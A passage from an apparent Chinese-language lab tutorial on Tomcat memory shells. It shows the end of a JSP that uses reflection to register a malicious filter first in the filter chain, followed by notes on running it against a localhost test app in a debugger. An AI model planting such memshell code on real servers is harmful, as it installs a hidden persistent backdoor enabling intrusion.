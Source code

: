 ```plain

        // 将filterMap添加至filterMaps(第一位)
        standardContext.addFilterMapBefore(filterMap);

        // 创建ApplicationFilterConfig对象
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        filterConfigs.put(myFiltername, filterConfig);

    }
    System.out.println("Success!");
} catch (Exception e) {
    e.printStackTrace();
}
%>
```

访问[http://localhost:8090/Tomcat\_memshell\_Web\_exploded/filterMemshell.jsp](http://localhost:8090/Tomcat_memshell_Web_exploded/filterMemshell.jsp)  
执行完第一行得到ApplicationContextFacade对象  
[![](assets/1701606655-7281c2a0b36b2f07cf4f4d7738112520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135052-45e245da-8056-1.png)  
执行到最后  